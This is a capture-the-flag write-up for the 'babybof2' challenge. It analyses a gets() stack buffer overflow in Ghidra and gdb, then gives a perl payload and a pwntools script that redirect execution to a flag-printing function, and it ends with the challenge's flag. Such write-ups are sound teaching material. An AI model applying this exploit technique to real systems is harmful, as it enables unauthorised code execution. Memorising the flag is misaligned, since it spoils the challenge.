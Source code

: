 # babybof2

## Description

Authors: icinta

```
nc chals20.cybercastors.com 14434
```

## Analysis

Open with Ghidra, look at `main()`

```
undefined4 main(void)

{
  puts("Do you really think you can get to the winners table?");
  puts("I\'ll give you one shot at it, what floor is the table at: ");
  start();
  puts("Yeah that\'s what I thougt, LOL.\n");
  return 0;
}
```

`start()` accepts input from STDIN and is vulnerable to a buffer overflow.

```
void start(void)

{
  char local_4c [68];
  
  __x86.get_pc_thunk.ax();
  gets(local_4c);
  return;
}
```

```
(gdb) disas start
Dump of assembler code for function start:
   0x08049201 <+0>:	push   %ebp
   0x08049202 <+1>:	mov    %esp,%ebp
   0x08049204 <+3>:	push   %ebx
   0x08049205 <+4>:	sub    $0x44,%esp
   0x08049208 <+7>:	call   0x8049290 <__x86.get_pc_thunk.ax>
   0x0804920d <+12>:	add    $0x21eb,%eax
   0x08049212 <+17>:	sub    $0xc,%esp
   0x08049215 <+20>:	lea    -0x48(%ebp),%edx
   0x08049218 <+23>:	push   %edx
   0x08049219 <+24>:	mov    %eax,%ebx
   0x0804921b <+26>:	call   0x8049040 <gets@plt>
   0x08049220 <+31>:	add    $0x10,%esp
   0x08049223 <+34>:	nop
   0x08049224 <+35>:	mov    -0x4(%ebp),%ebx
   0x08049227 <+38>:	leave  
   0x08049228 <+39>:	ret    
End of assembler dump.
```

And `winnersLevel()` is the function we need to reach.

```
undefined4 winnersLevel(int param_1)

{
  undefined4 uVar1;
  
  if ((param_1 == 0x182) || (param_1 == 0x102)) {
    puts("Wow! Please excuse me sir I had no idea...here are your chips");
    system("cat ./flag.txt");
    uVar1 = 1;
  }
  else {
    puts("You guessed right but it seems your badge number isn\'t on our list.");
    uVar1 = 0;
  }
  return uVar1;
}
```

```
(gdb) disas winnersLevel
Dump of assembler code for function winnersLevel:
   0x08049196 <+0>:	push   %ebp
   0x08049197 <+1>:	mov    %esp,%ebp
   0x08049199 <+3>:	push   %ebx
   0x0804919a <+4>:	sub    $0x4,%esp
   0x0804919d <+7>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491a2 <+12>:	add    $0x2256,%ebx
   0x080491a8 <+18>:	cmpl   $0x182,0x8(%ebp)
   0x080491af <+25>:	je     0x80491ba <winnersLevel+36>
   0x080491b1 <+27>:	cmpl   $0x102,0x8(%ebp)
   0x080491b8 <+34>:	jne    0x80491e5 <winnersLevel+79>
   0x080491ba <+36>:	sub    $0xc,%esp
   0x080491bd <+39>:	lea    -0x13f0(%ebx),%eax
   0x080491c3 <+45>:	push   %eax
   0x080491c4 <+46>:	call   0x8049050 <puts@plt>
   0x080491c9 <+51>:	add    $0x10,%esp
   0x080491cc <+54>:	sub    $0xc,%esp
   0x080491cf <+57>:	lea    -0x13b2(%ebx),%eax
   0x080491d5 <+63>:	push   %eax
   0x080491d6 <+64>:	call   0x8049060 <system@plt>
   0x080491db <+69>:	add    $0x10,%esp
   0x080491de <+72>:	mov    $0x1,%eax
   0x080491e3 <+77>:	jmp    0x80491fc <winnersLevel+102>
   0x080491e5 <+79>:	sub    $0xc,%esp
   0x080491e8 <+82>:	lea    -0x13a0(%ebx),%eax
   0x080491ee <+88>:	push   %eax
   0x080491ef <+89>:	call   0x8049050 <puts@plt>
   0x080491f4 <+94>:	add    $0x10,%esp
   0x080491f7 <+97>:	mov    $0x0,%eax
   0x080491fc <+102>:	mov    -0x4(%ebp),%ebx
   0x080491ff <+105>:	leave  
   0x08049200 <+106>:	ret    
End of assembler dump.
```

`winnersLevel()` takes one argument, which must be either `0x182` or `0x102` to get the flag. Let's check out the stack variables for this function in Ghidra:

```
                             undefined winnersLevel(undefined4 param_1)
             undefined         AL:1           <RETURN>
             undefined4        Stack[0x4]:4   param_1                                 XREF[2]:     080491a8(R), 
                                                                                                   080491b1(R)  
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     080491fc(R)  
                             winnersLevel                                    XREF[3]:     Entry Point(*), 0804a158, 
                                                                                          0804a1fc(*)  
        08049196 55              PUSH       EBP

```

We'll have to overflow the input buffer in `start()`, which is 68 bytes, plus probably another 8 bytes before overwriting the return address with the starting address of `winnersLevel()`. Then there will be the new return address (`0x08049196`) and then the two stack variables for `winnersLevel()`.


Create a fake flag file, and try to exploit it by hand.

```
root@kali:~/Downloads# echo hello > flag.txt
root@kali:~/Downloads# perl -e 'print "A"x76 . "\x96\x91\x04\x08"x1 . "\x00\x00\x00\x00" . "\x02\x01\x00\x00"' > payload && ./winners < payload; echo $?
Do you really think you can get to the winners table?
I'll give you one shot at it, what floor is the table at: 
Wow! Please excuse me sir I had no idea...here are your chips
hello
Segmentation fault
139
```

Bingo! And we can do the same with gdb to see what the memory looks like with this payload by setting a breakpoint at the `nop` just after `gets()` in the `start()` function.

```
(gdb) break *0x08049223
Breakpoint 1 at 0x8049223
(gdb) run < payload
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/winners < payload
Do you really think you can get to the winners table?
I'll give you one shot at it, what floor is the table at: 

Breakpoint 1, 0x08049223 in start ()
(gdb) info reg
eax            0xffffd2b0          -11600
ecx            0xf7faf5c0          -134548032
edx            0xf7fb089c          -134543204
ebx            0x804b3f8           134525944
esp            0xffffd2b0          0xffffd2b0
ebp            0xffffd2f8          0xffffd2f8
esi            0xf7faf000          -134549504
edi            0xf7faf000          -134549504
eip            0x8049223           0x8049223 <start+34>
eflags         0x282               [ SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/40wx $esp
0xffffd2b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2f0:	0x41414141	0x41414141	0x41414141	0x08049196
0xffffd300:	0x00000000	0x00000102	0xf7e06b00	0xf7fb2588
0xffffd310:	0xf7faf000	0xf7faf000	0x00000000	0xf7e06c7b
0xffffd320:	0xf7faf3fc	0x00040000	0x00000000	0x080492f3
0xffffd330:	0x00000001	0xffffd3f4	0xffffd3fc	0x080492c1
0xffffd340:	0xffffd360	0x00000000	0x00000000	0xf7defb41

```

## Solution

Now that we have a working local exploit, write the script to exploit the remote server. One key thing I missed when I first wrote this is that we have to set `DEBUG` mode to dump out every byte received. Otherwise, we won't see the flag.

```
root@kali:~/Downloads# cat winners-exploit.py 
#!/usr/bin/env python3
from pwn import *
context.log_level='DEBUG' # need debug mode to see flag
binary = ELF('./winners')
print("%x\n" % binary.symbols['winnersLevel'])
p = remote('chals20.cybercastors.com', 14434)
p.recvuntil("what floor is the table at:")
payload = b'A' * (68 + 8)
payload += p32(binary.symbols['winnersLevel'])
payload += p32(0x0)
payload += p32(0x102)
p.sendline(payload)
p.stream()
```

```
root@kali:~/Downloads# ./winners-exploit.py 
[DEBUG] PLT 0x8049040 gets
[DEBUG] PLT 0x8049050 puts
[DEBUG] PLT 0x8049060 system
[DEBUG] PLT 0x8049070 __libc_start_main
[*] '/root/Downloads/winners'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
8049196

[+] Opening connection to chals20.cybercastors.com on port 14434: Done
[DEBUG] Received 0x71 bytes:
    b'Do you really think you can get to the winners table?\n'
    b"I'll give you one shot at it, what floor is the table at: \n"
[DEBUG] Sent 0x59 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  96 91 04 08  │AAAA│AAAA│AAAA│····│
    00000050  00 00 00 00  02 01 00 00  0a                        │····│····│·│
    00000059
 
[DEBUG] Received 0x3e bytes:
    b'Wow! Please excuse me sir I had no idea...here are your chips\n'
Wow! Please excuse me sir I had no idea...here are your chips
[DEBUG] Received 0x2a bytes:
    b'castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}'
```

The flag is:

```
castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}
```

